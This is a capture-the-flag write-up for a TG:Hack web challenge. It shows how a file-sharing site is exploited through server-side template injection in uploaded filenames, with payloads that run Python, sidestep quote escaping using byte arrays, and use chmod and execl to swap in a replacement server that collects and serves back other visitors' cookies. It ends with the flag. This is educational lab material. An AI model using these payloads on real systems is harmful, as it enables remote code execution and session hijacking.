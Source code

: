 # Writeup [Files](README.md)

## Task description
**Author: roypur**

**Difficulty: hard**

**Category: web**

---

We found this file sharing site. Can you hack it?

**NB**

This challenge resets after 10 minutes.

- [files.tghack.no](https://files.tghack.no)

## Writeup

When we first open up the webpage we are greeted with a file upload prompt.
When you upload a file the filename appears below the upload form, and you can 
click the file to download it.

Since the page accepts user input you might think that
this could be an XSS task, but if you try to upload a file containing HTML, you can
see that the file is being served with the content type `text/plain charset=UTF-8`, 
which means that the
HTML won't be rendered as HTML, and that your JavaScript won't be executed.

If you try to run an XSS against the file listing page itself you
can see that the name of the file you uploaded has been sanitized.

Could this possibly be a server-side template injection (SSTI) task you may ask.
Lets find out!

Create a file with the filename `{{ 2 + 2 }}` and upload the file.
In the file listing you can now see a file with the name 4 and you have now
successfully injected something into the template of the webpage.

You can now try to run some actual Python-code to verify that you can do that.
Let us try to upload a file with the following 
filename `{% import os %}{{ os.listdir() }}`

Now you can see a list of files and folders in the current directory.
The two directories that stick out are the `hack` directory and 
the `uploads` directory.

If you now try to list the files in the `hack` directory by
uploading a file with `{% os %}{{ os.listdir("hack") }}` as the filename, 
you get a 500 error.
The error is caused by the quotes around the string being escaped,
and the code you actually end up executing 
is `{% import os %}{{ os.listdir(&quot;hack&quot;) }}`.

You can get around the input sanitizer by using a byte array
that you cast into a string as that would avoid using any of the characters 
replaced by the sanitizer.

```
{% import os,sys %}{{ os.listdir(str(bytes([0x68,0x61,0x63,0x6b]),sys.stdout.encoding)) }}
```

In the `/hack/challenge.py` file you can see a comment 
that reads `TODO: Validate cookies from client`,
which could mean that some clients have cookies set.

The final part of this challenge is to get a cookie from a client, and the easiest
way to do that is to make the server save the cookies and serve them back when 
someone connects.

You can use the `challenge.py` file as a starting point by modifying the request 
handlers to save the headers of the request,
and then respond to the client with the headers from previously connected clients.

```python
class MainHandler(tornado.web.RequestHandler):
    def get(self):
        with open('/uploads/cookies.txt', 'a+') as f:
            f.write(str(self.request.headers))
        with open('/uploads/cookies.txt', 'r') as f:
            self.finish(f.read())
```

The new webserver can be uploaded using the form on the website,
but it won't be executable by default, and while you can execute a Python script
that doesn't have the executable bit set by calling `python script.py`,
 doing so would result in the
filename with the exploit being longer than the maximum size of filenames.

Before executing the new webserver you have to make it executable, something you 
can do by using `os.chmod(file, perm)`

If you uploaded the webserver to `/uploads/p.py`, you can use the following 
payload to make it executable.

```
{% import os,sys,stat %}{{ os.chmod(str(bytes([0x2f,0x75,0x70,0x6c,0x6f,0x61,0x64,0x73,0x2f,0x70,0x2e,0x70,0x79]),sys.stdout.encoding),stat.S_IRWXU) }}
```

To replace the currently running server with the new one you can 
use `os.execl(file, args)`,
and if the script was uploaded to `/uploads/p.py`, you can run it 
by using the following payload.

```
{% import os,sys %}{{ os.execl(str(bytes([0x2f,0x75,0x70,0x6c,0x6f,0x61,0x64,0x73,0x2f,0x70,0x2e,0x70,0x79]),sys.stdout.encoding),str(bytes([0x2f,0x75,0x70,0x6c,0x6f,0x61,0x64,0x73,0x2f,0x70,0x2e,0x70,0x79]),sys.stdout.encoding)) }}
```

After executing the new webserver you can reload the webpage, and you get the flag.

```
TG20{skilled_statistic_unhappily_icing}
```
